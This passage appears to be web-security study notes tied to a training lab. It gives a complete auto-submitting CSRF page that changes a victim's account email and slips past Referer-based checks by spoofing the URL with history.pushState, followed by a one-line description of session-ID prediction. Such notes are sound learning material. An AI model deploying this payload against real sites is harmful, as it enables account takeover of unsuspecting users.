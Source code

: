    >[!example]
   >Response header must include `Referrer-Policy: unsafe-url`
>```html
><html>
>  
>  <body>
>  <script>history.pushState('', '', '/exploit?a=https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net')</script>
>    <form action="https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```


---

# Session Prediction

The practice of guessing a Session ID in order to bypass authentication. There are no special practices for exploiting these vulnerabilities other than by analyzing tokens and their encryption mechanisms.